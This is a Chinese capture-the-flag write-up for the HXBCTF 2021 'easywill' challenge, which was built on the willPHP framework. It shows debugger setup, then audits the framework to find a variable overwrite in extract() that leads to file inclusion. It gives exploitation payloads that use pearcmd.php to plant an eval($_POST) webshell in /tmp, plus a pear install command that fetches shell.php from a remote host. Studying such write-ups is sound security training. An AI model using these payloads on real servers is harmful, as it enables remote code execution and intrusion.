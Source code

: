 ```yaml
---
title: 湖湘杯
date: 2021-12-11 14:10:33
tags: 框架
categories: 比赛题目复现
top_img: https://images.wallpaperscraft.com/image/single/sunflowers_solitude_alone_124387_1280x720.jpg
cover: https://images4.alphacoders.com/781/thumbbig-781724.webp
---
```


## [HXBCTF 2021]easywill

**考点：**

```
1、框架审计

2、利用pearcmd.php包含getshell

3、phpstorm的远程debug
```

启动题目

![在这里插入图片描述](https://img-blog.csdnimg.cn/d96290a391494a569631ba8854abb8a5.png?x-os-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

告诉了是利用**willPHP**开发的框架题，还很好心的给出了开发手册和下载链接

对于**框架题**，要注意的有两点：

```
1、本地搭建环境测试

2、查询其开发手册和相关漏洞
```

### 本地环境搭建

所以这里我们先把其下载到本地，本地访问出现以下界面即为成功

```
http://localhost/will
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/e30023525f504adda20deef9a0553ade.png?x-os-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

接着我们将源码粘贴到**controller**下的**IndexController.php**,这里注意要将命名空间中的**home**改成**app**

![在这里插入图片描述](https://img-blog.csdnimg.cn/128cee303a60445fbed2a6a7bb7f0d69.png?x-os-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

现在我们本地的环境就和题目一模一样了，就可以开始在本地调试了

### **远程debug设置**

接下来进行远程debug的设置，我们这里使用的是**phpstudy**和**phpstorm**

我们打开**php.ini**配置文件，在xdebug处进行如下设置

```php
[Xdebug]
zend_extension=D:/phpstudy_pro/Extensions/php/php7.3.4nts/ext/php_xdebug.dll
xdebug.collect_params=1
xdebug.collect_return=1
xdebug.auto_trace=On
xdebug.trace_output_dir=D:/phpstudy_pro/Extensions/php_log/php7.3.4nts.xdebug.trace
xdebug.profiler_enable=On
xdebug.profiler_output_dir=D:/phpstudy_pro/Extensions/php_log/php7.3.4nts.xdebug.profiler
xdebug.remote_enable=1
xdebug.remote_host=localhost
xdebug.remote_port=11013   //可随意设置，保持和phpstorm上的端口一致即可
xdebug.remote_handler=dbgp
xdebug.remote_autostart =1
xdebug.idekey="PHPSTORM"  //可随意设置
```

接着设置**phpstorm**

![在这里插入图片描述](https://img-blog.csdnimg.cn/c597a82ccfae446ea4ef7988c9f8d613.png)

在右上角，紫色的这个点开

![在这里插入图片描述](https://img-blog.csdnimg.cn/7e36aaaa88274aeabcce5910a3ac6952.png?x-os-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_13,color_FFFFFF,t_70,g_se,x_16)

名称随意取，IDE健即为上面设置的`xdebug.idekey="PHPSTORM" `

服务器设置：

名称随意取，主机设为127.0.0.1或者localhost

![在这里插入图片描述](https://img-blog.csdnimg.cn/5975f3d4a2324ee6bbe8d4bca1a36e32.png)

然后点击验证进行验证，这里url要改成根目录

![在这里插入图片描述](https://img-blog.csdnimg.cn/50f37989fc754025b965ddb8597f0d1d.png?x-os-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

通过

![在这里插入图片描述](https://img-blog.csdnimg.cn/fa5adeee12bb4cf39e2a1af74b3d4223.png?x-os-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_19,color_FFFFFF,t_70,g_se,x_16)

接下来点击右上角的这个东西就可以开始远程调试了

![在这里插入图片描述](https://img-blog.csdnimg.cn/027a2d91b7434f9fb7d63ca3a8e7cde8.png)

### 题目解析

我们跟踪**assign**函数

![在这里插入图片描述](https://img-blog.csdnimg.cn/5abb1a51625940888b5131ee3565370b.png)

继续跟进assign，进到**helper.php**

```php
function assign($name, $value = null) {
	\wiphp\View::assign($name, $value);//这里调用了View里面的assign方法
```

继续跟进到**View.php**

```php
public static function assign($name, $value = null) {
		if ($name != '') self::$vars[$name] = $value;
	} //这里只是进行了一个判断，并且将$name作为键，$value作为值
```

退回到**helper.php**

再看view函数

```php
function view($file = '', $vars = []) {
	return \wiphp\View::fetch($file, $vars);//调用了View中的fetch方法
```

跟进到**View.php**

```php
public static function fetch($file = '', $vars = []) {
		if (!empty($vars)) self::$vars = array_merge(self::$vars, $vars);			
		$viewfile = self::getViewFile($file);
		if (file_exists($viewfile)) {
			array_walk_recursive(self::$vars, 'self::parseVars'); //处理输出
			define('__RUNTIME__', round((microtime(true) - START_TIME) , 4));	
			Template::render($viewfile, self::$vars);
		} else {
			App::halt($file.' 模板文件不存在。');
		}
	}
```

跟进**render**，进入**Tempate.php**

```php
public static function renderTo($viewfile, $vars = []) {
		$m = strtolower(__MODULE__);
		$cfile = 'view-'.$m.'_'.basename($viewfile).'.php';
		if (basename($viewfile) == 'jump.html') {
			$cfile = 'view-jump.html.php';
		}
		$cfile = PATH_VIEWC.'/'.$cfile;
		if (APP_DEBUG || !file_exists($cfile) || filemtime($cfile) < filemtime($viewfile)) {
			$strs = self::compile(file_get_contents($viewfile), $vars);
			file_put_contents($cfile, $strs);
		}
		extract($vars); //将键值赋值给变量
		include $cfile;
	}
```

可以看到存在变量覆盖以及文件包含

所以这里构造

```php
name=cfile & value=想写入的内容 即可形成文件包含漏洞
```

当我们开启远程debug后我们测试**?name=cfile&value=AAAA**，可以看到**$cfile=AAAA**

所以这里可以写入shell到tmp目录，关于**pearcmd.php**，可见[详解](https://blog.csdn.net/rfrder/article/details/121042290)

**出网的利用姿势**

```php
pear install -R /tmp http://xxxxxxx/shell.php
```

**不出网的利用姿势**

```php
pear -c /tmp/.feng.php -d man_dir=<?=eval($_POST[0]);?> -s
```

所以最终**payload**

```php
?name=cfile&value=/usr/local/lib/php/pearcmd.php&+config-create+/<?=eval($_POST[0])?>+/tmp/aa.php
```

这里要千万注意，不能直接到url里构造，否则`<>`会被url编码，我们写的shell就不会被解析了，所以我们要移步到burp中写

![在这里插入图片描述](https://img-blog.csdnimg.cn/f22ca4a159254ed5b073443bc39e0dc7.png?x-os-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

写入成功

![在这里插入图片描述](https://img-blog.csdnimg.cn/d171e80e41e84c878b57f44be693177d.png)

接着我们尝试执行phpinfo查看是否真正写入成功

```
http://53bb636f-9fbc-43f2-bd4a-be7c1efff83a.node4.buuoj.cn:81/?name=cfile&value=/tmp/aa.php
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/3c8bc274784547b0a56c7a80e0290ca0.png?x-os-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

可以看到，的确成功了，接着查看根目录下的文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/7fa9e3dc66a248ac88fca82df49ebbd9.png?x-os-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

看到flag文件，打开即可获得flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/d89f434ea3844de187f20b2953701bea.png?x-os-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)